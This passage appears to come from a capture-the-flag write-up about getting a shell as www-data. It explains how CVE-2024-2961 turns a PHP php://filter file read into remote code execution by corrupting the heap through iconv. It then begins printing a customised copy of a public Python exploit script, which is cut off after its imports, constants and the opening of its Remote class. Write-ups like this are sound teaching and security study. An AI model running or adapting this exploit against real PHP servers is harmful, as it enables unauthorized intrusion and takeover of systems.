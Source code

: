 
## Getting Shell as WWW-Data

If we just go through that blog, in short, I will explain what they mentioned:

- **File Read Primitive**

    - The exploit abuses `php://filter/` to **read arbitrary files** on the system.
    - It first reads **/proc/self/maps** to locate **where important memory regions are** (like heap, libc).

- **Memory Manipulation**

    - It searches for **the heap structure in PHP’s memory** (`zend_mm_heap`).
    - The goal is to **modify the heap’s free list**, which tracks freed memory chunks.

- **Heap Corruption with Encoding Tricks**

    - The exploit **uses multiple encoding filters** (like `iconv`, `base64`) to shape data in a way that lets it **overwrite memory pointers**.
    - This step carefully manipulates how PHP **allocates and frees memory**, allowing the attacker to take control.

- **Remote Code Execution (RCE)**

    - Finally, the attacker **injects a malicious command** into memory.
    - PHP **executes this injected command**, giving control over the system.

To Know more about the Exploit Dev Refer this [CVE-2024-2961 - PHP Iconv Exploitation](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1).

They also provided exploits for this, and we just modified them accordingly for our case. Here is the customized exploit I used: 

```python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64
import urllib.parse
import zlib
import urllib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:
    """A helper class to send the payload and download files.
```